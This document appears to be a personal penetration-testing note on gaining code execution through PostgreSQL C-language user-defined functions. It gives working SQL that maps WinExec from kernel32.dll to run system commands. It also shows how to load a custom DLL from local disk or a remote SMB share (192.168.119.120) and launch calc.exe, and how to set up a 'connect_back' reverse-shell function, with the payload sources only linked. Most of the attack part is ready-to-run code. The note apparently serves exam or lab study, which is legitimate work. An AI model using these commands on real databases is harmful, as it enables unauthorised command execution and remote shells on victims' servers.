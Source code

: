 ```yaml
---
{"dg-publish":true,"permalink":"/1-hack-like-a-script-kiddie/web/postgres-sql/0-psql-extensions-attack-udf/","noteIcon":"","created":"2025-04-15T14:11:19.610-04:00"}
---
```




















Load an extension using the following. 
```
CREATE OR REPLACE FUNCTION test(text) RETURNS void AS 'FILENAME', 'test' LANGUAGE 'C' STRICT;


CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS 'C:\Windows\System32\kernel32.dll', 'WinExec' LANGUAGE C STRICT;
SELECT system('hostname');



```

## Steps  Local attack
1. Generate awae.dll using the script. [[poc.c Local execution arking.\|poc.c Local execution arking.]]
2. Create a function
```
# From local machine
create or replace function test(text, integer) returns void as $C:\awae.dll$, $awae$ language C strict;
SELECT test($calc.exe$, 3);


# From remote machine
CREATE OR REPLACE FUNCTION remote_test(text, integer) RETURNS void AS $\\192.168.119.120\awae\awae.dll$, $awae$ LANGUAGE C STRICT;
SELECT remote_test($calc.exe$, 3);
```
3. Start/Stop the application. 
	1. `net stop "Applications Manager"`
	2. delete the dll file. DLL file is loaded into the database memory space.
	3. `net start "Applications Manager"`
4. Delete the test function.
	1. `DROP FUNCTION test(text, integer);`
5. Observe calc.exe using tasklist
	1. tasklist |findstr -i calc.exe


## Steps Rev shell
1. Generate payload. [[psql poc.c - reverseshell\|psql poc.c - reverseshell]]
2. Create a function
```
create or replace function test2(text) returns void as $C:\awae2.dll$, $connect_back$ language C strict;
```
3. Execute the function.
```
select test2('something')
```

4. Python payload.
[[Remote execution py\|Remote execution py]]